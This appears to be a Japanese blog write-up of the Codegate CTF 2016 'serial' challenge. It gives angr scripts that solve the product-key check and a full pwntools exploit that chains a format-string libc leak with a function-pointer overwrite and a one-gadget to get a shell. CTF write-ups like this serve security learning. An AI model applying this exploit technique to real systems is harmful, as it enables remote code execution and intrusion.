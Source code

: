 ```yaml
---
layout: post
alias: "/blog/2016/10/23/codegate-ctf-2016-serial/"
date: "2016-10-23T00:50:29+09:00"
tags: [ "ctf", "codegate-ctf", "pwn", "angr" ]
"target_url": [ "https://github.com/ctfs/write-ups-2016/tree/master/codegate-ctf-2016/pwn/serial-444" ]
---
```


# Codegate CTF 2016 : serial

## problem

``` sh
$ file ./serial
./serial: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=178aaa6576923592e7fc8534fd8cb21d5f6c5cdb, stripped

$ ./serial
input product key: 615066814080
Correct!
Smash me!
1. Add 2. Remove 3. Dump 4. Quit
choice >> 1
insert >> hoge
Smash me!
1. Add 2. Remove 3. Dump 4. Quit
choice >> 1
insert >> fuga
Smash me!
1. Add 2. Remove 3. Dump 4. Quit
choice >> 3
func : 0x40096e
0. hoge
1. fuga
Smash me!
1. Add 2. Remove 3. Dump 4. Quit
choice >> 4
bye
```

## solution

まず最初に`input product key: `と聞かれる。
angrで殴れば倒せる。この部分は後に効いてこないので忘れてよい。

note管理系のプログラム。
heap上に以下の配列が確保される。chunkそのものもoverflowしているが、他に`malloc`も`free`もないのでここは攻撃不可能。

``` c
struct note_t {
    char content[0x18]; // 0x0
    void (*func)(node_t *) ; // 0x18
}; // 0x20
```

`1. Add`で`content`にoverflowがあり、自身の`func`を書き換えられる。
`3. Dump`で先頭noteの`func`が呼ばれるので、fsaから適当にすればよい。
主なbofはheap上なので`printf`の引数が問題だが、`choice >> `で読んだときのごみがstackに残っているので利用できるし、`argv[0]`あたりも使える。

## implementation

### product key (愚直)

最低限の`find`/`avoid`のみを指定した場合。
$10$分ぐらいかかるが解は出る。

``` python
#!/usr/bin/env python2
import angr

number_only = 0x400d22
wrong = 0x400e78
correct = 0x400e5c

p = angr.Project("./serial")
state = p.factory.entry_state()
pathgroup = p.factory.path_group(state)
pathgroup.explore(find=(correct, ), avoid=(number_only, wrong))

for path in pathgroup.found:
    print 'found', path
    print repr(path.state.posix.dumps(1))
    print repr(path.state.posix.dumps(0))
```

### product key (まとも)

入力を直接メモリに載せ、目的の関数のみを直接実行する場合。
$3$秒で終わる。

``` python
#!/usr/bin/env python2
import angr

key_length = 12
check_function = 0x400cbb
address = 0x602000 + 0x900
number_only = 0x400d22
wrong = 0x400e78
correct = 0x400e5c

p = angr.Project("./serial")
state = p.factory.blank_state(addr=check_function)
key = state.se.BVS(name="key", size=key_length*8)
state.memory.store(address, key)
state.regs.rdi = address
pathgroup = p.factory.path_group(state)
pathgroup.explore(find=(correct, ), avoid=(number_only, wrong))

for path in pathgroup.found:
    print repr(path.state.se.any_str(key))
```

### shell

思考停止してone-gadget RCE投げ込むの、悪影響ありそう。

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
args = parser.parse_args()
context.log_level = 'debug'

elf = ELF('./serial')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
p = process('./serial')

p.recvuntil('input product key: ')
p.sendline('615066814080')

def add(s):
    p.recvuntil('choice >> ')
    p.sendline('1')
    p.recvuntil('insert >> ')
    p.send(s)
def remove(i):
    p.recvuntil('choice >> ')
    p.sendline('2')
    p.recvuntil('choice>> ')
    p.sendline(str(i))
def dump(tail='', result=True):
    p.recvuntil('choice >> ')
    p.sendline('3' + tail)
    if result:
        assert p.recvline().startswith('func : ')
        return p.recvuntil('Smash me!\n', drop=True)

# format-string attack
add('%13$s'.ljust(0x18, ' ') + p64(elf.plt['printf']).rstrip('\0') + '\n')
t = dump(' ' * 7 + p64(elf.got['setvbuf']))
remove(0)
setvbuf = u64(t.split('    ')[0].ljust(8, '\0'))
libc_base = setvbuf - libc.symbols['setvbuf']
log.info('libc base: %#x', libc_base)

# one-gadget RCE on Ubuntu 16.04
add(' ' * 0x18 + p64(libc_base + 0xf0897).rstrip('\0') + '\n')
dump(result=False)

time.sleep(1)
p.sendline('id')
p.interactive()
```
